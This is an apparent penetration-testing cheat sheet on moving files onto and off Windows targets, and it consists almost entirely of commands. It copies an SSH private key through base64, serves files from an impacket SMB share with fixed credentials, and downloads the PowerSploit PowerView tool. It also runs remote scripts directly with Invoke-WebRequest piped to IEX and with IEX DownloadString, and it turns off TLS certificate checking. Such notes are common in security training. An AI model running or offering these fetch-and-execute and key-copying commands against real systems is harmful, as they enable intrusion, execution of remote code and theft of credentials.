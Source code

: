 # **File Transfers**

## **File Transfer Methods**
### **Windows File Transfer Methods**

#### <span class="red-command">Downloading files from Linux to Windows</span>
<code class="invert">Via base64 encode-decode method</code>
```bash
cat ~/.ssh/id_rsa | base64 -w 0 | xclip -selection clipboard
```

``` powershell
PS C:\Users> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String(<BASE64_ENCODED_CONTENTS_OF_A_FILE>))
PS C:\Users> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

<code class="invert">Via SMB share</code>
```
sudo impacket-smbserver share -smb2support file-transfer -user redparrot -password toor


xfreerdp /u:<username> /p:'<password>' /v:<RDP_SERVER>
C:\Users\ghost> net use n: \\<TUN0_IP>\share /user:redparrot toor
C:\Users\ghost> net copy n:\file.zip
C:\Users\ghost> powershell
PS C:\Users\ghost> Expand-Archive -Path yourfile.zip -DestinationPath .
PowerShell> cd N:
PS N:> hasher file.txt > hash.txt 
PS N:> exit

# unmount the share N from windows, exit from RDP, stop sharing the share via SMB
# Navigate to the share and get hash.txt
```

<code class="invert">PowerShell Web Downloads</code>

```powershell
PS C:\Users> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\Users> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\Users> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\Users> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

<code class="invert">PowerShell Invoke-WebRequest</code>
```powershell
PS C:\Users> Invoke-WebRequest https://192.168.45.2/PowerView.ps1 -UseBasicParsing | IEX

# Disable SSL/TLS secure channel
PS C:\Users> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
PS C:\Users> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
